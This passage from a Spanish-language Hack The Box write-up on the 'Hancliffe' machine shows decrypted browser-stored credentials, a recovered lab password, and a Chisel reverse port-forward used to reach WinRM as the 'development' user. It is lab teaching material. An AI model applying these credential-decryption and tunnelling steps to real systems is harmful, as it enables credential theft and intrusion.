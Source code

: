 ```python
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'f8cea67900ed4b333ca56416f69a'
       }
     }
   }
   OCTETSTRING b'3f321c52f6534075d3d8915531d27df9'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'8d0ed50896869dc856de82150164a1390a953b67792edac2a62315625836ff08'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'76eba390fe01807925d822a071da'
       }
     }
   }
   OCTETSTRING b'cde74fae29c28c791794371b447180cabce01b6927bac73199f192e557136c36'
 }
clearText b'9efbbfd986fd5bef94b032679b7679d09b1f51891601b6e50808080808080808'
decrypting login/password pairs
http://localhost:8000:b'hancliffe.htb',b'#@H@ncLiff3D3velopm3ntM@st3rK3y*!'
```

Y en cuestión de segundos la descifro, había otro usuario en el sistema llamado `development`.

![https://imgur.com/Hkp5v0U.png](https://imgur.com/Hkp5v0U.png)

Esto realmente era una pista, si recordamos había una página de generación de contraseñas, entonces puse estas credenciales y el usuario `development`.

![https://imgur.com/XMXafJq.png](https://imgur.com/XMXafJq.png)

La contraseña generada me podría servir para autenticarme por `winrm` haciendo uso del usuario `development`, ya que estaba dentro del grupo *Remote Managment Users*, pero no está expuesto, por lo que tuve que hacer otro reenvío de puertos del puerto '5985', me abrí un servidor en mí máquina con `Chisel` por el puerto `8888` y me conecte como cliente desde la máquina víctima.

![https://imgur.com/6GhBOVH.png](https://imgur.com/6GhBOVH.png)
